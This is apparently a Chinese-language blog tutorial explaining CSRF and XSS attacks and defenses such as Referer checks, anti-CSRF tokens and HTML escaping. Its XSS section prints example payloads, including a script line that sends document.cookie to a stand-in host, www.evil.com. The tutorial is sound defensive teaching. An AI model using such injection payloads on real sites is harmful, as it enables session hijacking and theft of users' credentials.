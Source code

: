 ```yaml
---
title: CSRF与XSS
date: 2018-08-21
tags: 网络安全
---
```


CSRF与XSS都为跨站式的请求攻击容易让人混淆，本文将对这两种攻击及对应防范方法进行梳理。

<!-- more -->

### CSRF(Cross-Site Request Forgery)跨站请求伪造

攻击者盗用了用户的身份以用户的名义进行恶意请求，如发送邮件、银行转账等。

如用户A在example网站上进行转账，通过 http://example.com/withdraw?user=A&amount=100 进行转账请求并携带存储在浏览器的相关验证信息如cookie，服务器通过对cookie的验证确认用户信息完成转账。

若A在保持example网站登录时访问了恶意网站，并被引诱点击链接 http://example.com/withdraw?user=A&amount=100 ，因浏览器关于此网站的相关验证信息还没过期，该请求也携带相关验证信息对服务器进行请求，服务器通过对验证信息的确认认为用户身份没有问题也完成转账。

由此攻击者利用服务器对浏览器的信任成功盗用用户A的身份进行银行转账。

#### 防御

#### 1. 使用HTTP头部的REFERER字段

请求头中的REFERER字段记录了请求来源的地址，在处理敏感信息时一般将请求地址与Referer字段处于同一域名下，服务器可以通过对REFERER值判断该请求是否正常。从恶意网站中被引诱点击的请求REFERER值为该恶意网站，由此服务器可以拒绝此请求。
此方式简单易用，仅需要在服务器判断REFERER字段值即可。然而虽然http协议规定了不可对REFERER字段进行修改，实际上并不能保证浏览器的具体实现，有些低级浏览器的安全漏洞也使得攻击者对REFERER字段进行修改。

#### 2. 使用验证码

验证码强制用户必须参与请求交互，通常情况下可以很好防止CSRF攻击。但出于用户体验的考虑，一个网站并不可能每个请求都需要用户输入验证码。此方法只能作为协助手段，并不能通用解决CSRF问题。

#### 3. 使用Anti CSRF Token验证

CSRF攻击者利用了存储在浏览器的验证信息通过服务器验证，其实只要验证信息不直接存储在浏览器中即可防范。
服务器可以使用cookie或Session携带验证信息的token，但直接使用cookie或Session进行请求并不能通过服务器验证，而是需要客户端获取cookie或Session中token信息并在请求头设置验证字段发送请求。
浏览器的同源策略使得处于不同域名下的恶意网站并不能获取分析浏览器中的cookie或Session信息，从而不能设置具体的请求验证字段通过服务器验证。
此方法最为常用。

### XSS（Cross-site scripting)跨站脚本

攻击者利用网页开始时留下的漏洞，通过巧妙的方法往网页中注入恶意代码，使用户加载和执行这些恶意代码从而达到网页攻击的作用，如修改网页内容，盗取网站cookie或会话信息等。

如一个网站上有留言板，将用户输入信息显示出来，若不对输入信息进行处理，攻击者便有机会往留言板写入恶意js代码进行攻击。
正常用户往留言板留言：
```
Nice!
```
留言板的HTML代码将为：
```
//  这是一个正常显示的留言板
<div> 
    Nice
</div>
```
恶意攻击者往留言板留言：
```
<script>alert('you are attacked!');</script>
```
留言板的HTML代码将为：
```
//  这是一个被攻击的留言板
<div> 
    <script>alert('you are attacked!');</script>   
</div> 
```
其中的js代码将会执行，浏览器弹出对话框显示you are attacked!。这只是弹出对话框吓一下你，然而当攻击者通过留言获取网站的cookie信息就危险了：
```
<script>window.open(www.evil.com?content=document.cookie);</script>
```
www.evil.com 便可得到用户在该网站的cookie信息了。

#### 防御

#### 1. 对输入值进行转义

其实本质就是不相信任何用户输入，不能将用户输入直接写到HMLT DOM结果里。若网站开发者将留言板的输入信息过滤掉<scirpt></sciprt>这个HTML元素，其中的JS代码将不会被浏览器解析危害用户了。开发者可使用以下[规则](https://www.owasp.org/index.php/XSS_%28Cross_Site_Scripting%29_Prevention_Cheat_Sheet)对输入值进行转义：

| 转义类型 | 转义方式 |
| ------- | --------------------------------------- |
| HTML实体转义 | &amp; 转为  &amp;amp; <br> &lt; 转为 `&amp;lt; <br> &gt; 转为 &amp;gt; <br> &quot; 转为 &amp;quot; <br> &#27; 转为 &amp;#27; <br> &#x2F; 转为 &amp;#x2F; |
| HTML属性编码 | 除了字母，转换所有字符为&amp;#xHH;形式，包括空格（HH = Hex数值）    |
| URL编码     | URL编码应该只用于参数部分，而不是整个URL或URL路径部分。<br> 标准的编码可参考 http://www.w3schools.com/tags/ref_urlencode.asp    |
| JavaScript编码  | 除了字母，转换所有字符为 \uXXXX 的unicode转义形式（X=整数）     |
| CSS Hex编码   |  CSS转义支持 \XX 和 \XXXXXX 的形式。如果下一个字符会继续转义序列，那使用两个字符的转义形式可能会出现问题。<br> 有两种解决办法（a）在CSS转义后添加一个空格（会被CSS解析器忽略）（b）使用0填充以实现完整的CSS转义格式。 |

如用户输入内容是：
```
<script>alert('attacked!');</script>
```
转义后的字符串是：
```
&lt;script&gt;alert(&quot;attacked!&quot;)&lt;/script&gt;
```

浏览器遇到<script></script>字符串会对其进行JS代码解析，但遇到```&lt;&gt;```这样的字符就不会当做JS代码执行而仅作为普通字符串打印，由此可以防范代码注入。
当今的主流前端框架如[Angular](https://angular.cn/guide/security)等已支持对输入值的无公害处理以防范XSS，使用这些框架我们则不需要自己对输入信息进行转义。

### 总结
可以说XSS 利用的是用户对指定网站的信任; CSRF 利用的是网站对用户网页浏览器的信任。
使用对应的手段可以防御一定的网络攻击，但作为开发者，我们也只能尽可能提高网络攻击的难度，没有一定安全的网络。只有进一步提高攻击者的门槛使得网络逼近绝对安全的位置。